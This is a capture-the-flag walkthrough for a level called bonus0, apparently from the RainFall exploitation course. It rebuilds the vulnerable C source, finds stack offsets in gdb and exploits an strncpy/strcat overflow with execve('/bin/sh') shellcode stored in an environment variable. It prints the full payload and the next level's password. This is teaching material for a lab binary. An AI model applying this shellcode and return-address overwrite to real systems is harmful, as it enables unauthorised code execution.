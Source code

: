 # Bonus 0

## Answer
Our C source code generates almost the same assembly code as the original binary. Compile it as follows:
> There is a slight difference as mentioned in the comments of the source code. I assume this is due to us using the wrong type for the buffers in the `pp` function. Nonetheless, it doesn't change the program's behavior
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <string.h>

unsigned short *a = 32;

void p(char *str, char *str2)
{
    char buf[4096];

    puts(str2);
    read(0, buf, 4096);
    *strchr(buf, '\n') = 0;
    strncpy(str, buf, 20);
}

// sub is incorrect by 4 bytes and ebx is not used
void pp(char *str)
{
    char buf[20];
    char buf2[20];

    p(buf2, " - ");
    p(buf, " - ");

    strcpy(str, buf2);

    str[strlen(str)] = *a;

    strcat(str, buf);
}

int main()
{
    char buf[42];

    pp(buf);
    puts(buf);

    return 0;
}
```

Let's focus on the `main` function. It reads input using the `read` function, the null terminator is then added with `strchr` and the string is copied to the `buf` buffer using `strncpy` with a size of 20. However, the `strncpy` function doesn't add a null terminator if the string is longer than the size provided. Therefore, the `str` buffer will not be null terminated.

This will result in `strcpy` copying the `buf2` buffer to the `str` buffer, but it will not stop at the null terminator, since there is none, it will continue to copy the `buf` buffer to the `str` buffer. Then `strcat` will append the `buf` buffer to the `str` buffer which will allow us to overflow the buffer and overwrite the return address of the `main` function.


Let's first see how many bytes we need to overflow the buffer by analyzing the stack layout of our program:
```bash
(gdb) b *main+38 # Breaking before leave
Breakpoint 1 at 0x80485ca

(gdb) r # Run the program
Starting program: /home/user/bonus0/bonus0
 -

 -



Breakpoint 1, 0x080485ca in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6f0       0xbffff6f0
ebp            0xbffff738       0xbffff738
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 72 bytes:
```
0xbffff738 - 0xbffff6f0 = 48 (72 in decimal)
```

Furthermore, we can see that our buffer is located at `0x16(%esp),%eax`. Since there is 72 bytes for the stack, our buffer will therefore require 50 bytes (72 - 22) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 54 bytes (50 + 4).

Anything written beyond those 54 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

Since we now know that 54 bytes are required, let's see how many we can write:
```bash
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB��� BBBBBBBBBBBBBBBBBBBB���
Segmentation fault (core dumped)
```

We're obviously limited to 20 bytes per buffer, but as we can see, the 20 bytes of B's are written after the 20 bytes of A's. There is also a space added between the two buffer and finally another 20 bytes of A's. So it's possible to write 61 bytes in total which is more than enough to overwrite the return address of the `main` function.

Since the bytes of `buf` are written after the bytes of `buf2`, we have to be slightly tactical to figure out where we need to write our address:
```
20 bytes of buf2 + 19 bytes of buf + 1 byte of space + 19 bytes of buf

54 - 59 = -5 bytes
```

So we need to write our address 5 bytes before the end of the `buf` buffer. Such as:
```
buf2 = "\x90" * 20 (20 bytes)
buf = "\x90" * 14 + Address (4 bytes) + "\x90" (19 bytes)

buf2 + buf + space + buf (only 14 first bytes) 
20 + 19 + 1 + 14 = 54 bytes
```

Since a ret2libc would require 12 bytes (4 bytes for the address of `system`, 4 bytes for the address of `exit` and 4 bytes for the address of "/bin/sh"), we're just going to use a ret2shellcode.

Check the [level1's walkthrough](../level1/walkthrough.md#ret2shellcode) for an explanation of the ret2shellcode technique.

We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
bonus0@RainFall:~$ export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus0@RainFall:/tmp$ ./a.out
0xbffff848
```

Alright, let's craft our payload:
```
arg1 = padding of 20 bytes
arg2 = padding of 14 bytes + address of the shellcode in the env + padding of 1 byte

arg1 = "\x90" * 20
arg2 = "\x90" * 14 + "\xbf\xff\xf8\x48" + "\x90"
```

Let's run it:
```bash
bonus0@RainFall:~$ (python -c 'print "\x90" * 20'; python -c 'print "\x90" * 14 + "\xbf\xff\xf8\x48"[::-1] + "\x90"'; echo 'cat /home/user/bonus1/.pass') | ./bonus0
 - 
 - 
����������������������������������H���� ��������������H����
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

We are now bonus1! Let's move on to the next level.